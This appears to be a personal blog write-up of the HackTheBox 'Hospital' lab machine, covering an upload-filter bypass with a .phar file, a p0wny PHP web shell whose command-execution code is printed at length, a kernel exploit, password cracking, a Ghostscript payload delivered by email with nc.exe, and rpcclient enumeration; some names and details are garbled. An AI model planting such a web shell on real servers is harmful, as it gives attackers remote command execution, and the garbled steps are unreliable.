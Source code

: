 ```yaml
---
layout: post
title: "Hospital 20c59ccb35cc4f3f99a35e93dd0be86a"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Hospital

HackTheBox: Medium

<aside>
💡 Monitored is a windows machine

</aside>

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled.png' | relative_url }})

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_1.png' | relative_url }})

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_2.png' | relative_url }})

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_3.png' | relative_url }})

We can see 2 http services, go forward the one which allows create an account

> Testing some allowed extensions, we realise .phar extensions.
There is a  tool called ponyshell, downloaded and change its extensions
> 

```bash
<?php

$SHELL_CONFIG = array(
    'username' => 'p0wny',
    'hostname' => 'shell',
);

function expandPath($path) {
    if (preg_match("#^(~[a-zA-Z0-9_.-]*)(/.*)?$#", $path, $match)) {
        exec("echo $match[1]", $stdout);
        return $stdout[0] . $match[2];
    }
    return $path;
}

function allFunctionExist($list = array()) {
    foreach ($list as $entry) {
        if (!function_exists($entry)) {
            return false;
        }
    }
    return true;
}

function executeCommand($cmd) {
    $output = '';
    if (function_exists('exec')) {
        exec($cmd, $output);
        $output = implode("\n", $output);
    } else if (function_exists('shell_exec')) {
        $output = shell_exec($cmd);
    } else if (allFunctionExist(array('system', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        system($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('passthru', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        passthru($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('popen', 'feof', 'fread', 'pclose'))) {
        $handle = popen($cmd, 'r');
        while (!feof($handle)) {
            $output .= fread($handle, 4096);
        }
        pclose($handle);
    } else if (allFunctionExist(array('proc_open', 'stream_get_contents', 'proc_close'))) {
        $handle = proc_open($cmd, array(0 => array('pipe', 'r'), 1 => array('pipe', 'w')), $pipes);
        $output = stream_get_contents($pipes[1]);
        proc_close($handle);
    }
    return $output;
}

function isRunningWindows() {
    return stripos(PHP_OS, "WIN") === 0;
}
```

We can search with gobuster to search routes 

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_4.png' | relative_url }})

## 2: User flag

We can use a rev shell and generate estability

Using uname -a we can see there is a vulnerable kernel version, download the exploit 

- We are root at data → cat /etc/passwd

```bash
john hash.txt rockyou.txt
```

We’ve got creds in the 443 port interface, there we find a Gohostscript vulnerability

Clone the repository and create the payload to injected 

1. We send a payload with nc.exe request by email

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_5.png' | relative_url }})

1. Once it is on the victim machine we sent another payload with the rev shell

![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_6.png' | relative_url }})

## 3: Priv esc

Start this part where you spawn, theres is a file called ghostscrip.bat lets type it

> We found some rcpclient creds
> 

### rcpclient

It has functions of authentication and enumeration of services, getting information about users

```bash
rcpclient -u "user" url 
querydispinfo
```

We realise that guest user has admin permises so lets go to C:\xampp\htdocs and user ponyshell again wiht a .php ext

Machine pwned./!!